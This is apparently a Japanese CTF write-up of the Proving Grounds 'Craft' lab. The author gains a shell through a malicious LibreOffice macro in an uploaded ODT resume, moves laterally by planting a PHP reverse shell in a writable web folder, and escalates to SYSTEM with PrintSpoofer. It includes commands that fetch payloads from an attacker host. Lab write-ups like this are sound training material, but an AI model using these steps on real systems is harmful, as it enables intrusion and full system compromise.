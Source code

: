 # Enumeration

## nmap

```
# Nmap 7.94SVN scan initiated Thu Jul  4 22:56:55 2024 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/hatto/CTF/Offsec/ProvinGrounds/Craft/results/192.168.162.169/scans/_full_tcp_nmap.txt -oX /home/hatto/CTF/Offsec/ProvinGrounds/Craft/results/192.168.162.169/scans/xml/_full_tcp_nmap.xml 192.168.162.169
Nmap scan report for 192.168.162.169
Host is up, received user-set (0.097s latency).
Scanned at 2024-07-04 22:56:55 JST for 136s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 125 Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
|_http-title: Craft
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/4%OT=80%CT=%CU=%PV=Y%DS=4%DC=T%G=N%TM=6686AAAF%P=x86_64-pc-linux-gnu)
SEQ(SP=FF%GCD=1%ISR=10A%TS=U)
SEQ(SP=FF%GCD=1%ISR=10A%TI=I%TS=U)
OPS(O1=M551NW8NNS%O2=M551NW8NNS%O3=M551NW8%O4=M551NW8NNS%O5=M551NW8NNS%O6=M551NNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M551NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=N)

Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=255 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   96.87 ms 192.168.45.1
2   96.83 ms 192.168.45.254
3   97.18 ms 192.168.251.1
4   97.31 ms 192.168.162.169

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul  4 22:59:11 2024 -- 1 IP address (1 host up) scanned in 135.76 seconds
```

Windowsにしては珍しく80番ポートしか開いていいなかった。

とりあえず、ウェブサイトにアクセスしてみる。

![](screenshot/image-20240706124650081.png)

どこかの会社のホームページっぽい

ページを下にスクロールしていくと履歴書をアップロードするフォームを見つけた。

![](screenshot/image-20240706125119241.png)

適当なファイルをアップロードしてみる。

![](screenshot/image-20240706125451544.png)

`ODT`ファイルのみを受け付けているらしい。ODTファイルをアプリケーションする

![](screenshot/image-20240706125704873.png)

正常にアップロードできた。

googleで `odt file exploit` で調べてみると`LibreOffice`と`OpenOffice`にRCEの脆弱性が発見されたという記事を見つけた。

[Severe RCE Flaw Disclosed in Popular LibreOffice and OpenOffice Software](https://thehackernews.com/2019/02/hacking-libreoffice-openoffice.html)

どうやらODTファイルを開く際のイベントに悪意のあるマクロを設定することによりRCEが発火するらしい

# Exploit

この脆弱性を悪用する以下のPoCを見つけた

[macro-generator](https://github.com/jotyGill/macro-generator)

まず、リバースシェルを作成する

![](screenshot/image-20240706130935760.png)

ペイロードを配信するhttpサーバーを起動する

<img src="screenshot/image-20240706131112160.png" style="zoom:200%;" />

Microsoft Office および Libre Office に貼り付けるマクロを生成する

```
python3 macro-generator.py --host 192.168.45.171 --port 4444 -r ':8000/win/rshell.exe'
```

LibreOffice用のマクロを使用する

![](screenshot/image-20240706132033199.png)

生成されたマクロをodtファイルに適用する

LibreOfficeを起動して ツール→マクロ→マクロの編集 に移動する

![](screenshot/image-20240706132951662.png)

矢印がさしているボタンをからマクロの管理ページがひらくので新規作成を押し、適当な名前で保存する

![](screenshot/image-20240706133137216.png)

以下のようになっていればOK

![](screenshot/image-20240706133253259.png)

生成したマクロを貼り付ける

![](screenshot/image-20240706133504414.png)

つづいてマクロをイベントに割り当てる。ツール→カスタマイズからイベントタグに移動し

![](screenshot/image-20240706133853426.png)

矢印の順番にクリックし作成したマクロを選択肢OKを押す

![](screenshot/image-20240706133933495.png)

シェルを受け取る待ち受けを設定する

<img src="screenshot/image-20240706134115879.png" style="zoom:200%;" />

作成したodtファイルをフォームにアップロードしてしばらく待つとhttpリクエストが届き、`thecybergeek`としてのシェルを取得できた。

![](screenshot/image-20240706134943406.png)

# Privilege Escalation

## apache

`C:\Users` フォルダを見てみると管理者以外に`apache`というユーザーがいることが分かるので横移動する必要がありそう

![](screenshot/image-20240706135628943.png)

Cドライブ直下にウェブサイトやウェブアプリケーションを開発・運用するための環境を簡単に構築できるソフトウェアである`xampp`というソフトウェアのフォルダを見つけた

![](screenshot/image-20240706140114007.png)

xamppディレクトリ内を探索しているとWebサイトで動いていたであろう`upload.php`ファイルなどが見つかった。

![](screenshot/image-20240706140845156.png)

`icacls` でアクセス権限を調べてみるとどのユーザにも書き込み権限、ファイルの追加権限が付与されているのでphp-reverse-shellをアップロードすることでユーザー`apache`に横移動できる可能性がある。

![](screenshot/image-20240706141251758.png)

[Online Reverse Shell Generator](https://www.revshells.com/) で作成したWindowsようにphpリバースシェルを作成して`C:\xampp\htdocs` にアップロードする

pythonでサーバーを起動して以下のコマンドからファイルをダウンロードする

```
(New-Object Net.WebClient).DownloadFile("http://192.168.45.171:8000/rev.php","c:\xampp\htdocs\rev.php")
```

待ち受けようのリスナー起動して ウェブサイトから `rev.php` にアクセスする

![](screenshot/image-20240706142938905.png)

`apache` として横移動に成功した

## Administrator

`whoami /priv` で権限の確認をしてみると `SeImpersonatePrivilege` が有効になっていた。

![](screenshot/image-20240706143106284.png)

この権限は`JuicyPotato` や `PrintSpoofer` を使用することで `DCOM/NTLM` リフレクションを悪用を介して `SeImpersonate` または `SeAssignPrimaryToken` 権限を悪用し権限の昇格を行える可能性がある。

必要になる`nc.exe`と`PrintSpoofer.exe`をダウンロードする

![](screenshot/image-20240706144148786.png)

![](screenshot/image-20240706144601721.png)

攻撃側マシンでリスナー設定し以下のように `PrintSpoofer` を実行する

![](screenshot/image-20240706144736311.png)

`nt authority\system`  としてシェルを獲得できた

![](screenshot/image-20240706144852639.png)

`local.txt` を獲得

![](screenshot/image-20240706145130589.png)

`proof.txt` を獲得

![](screenshot/image-20240706145012641.png)





















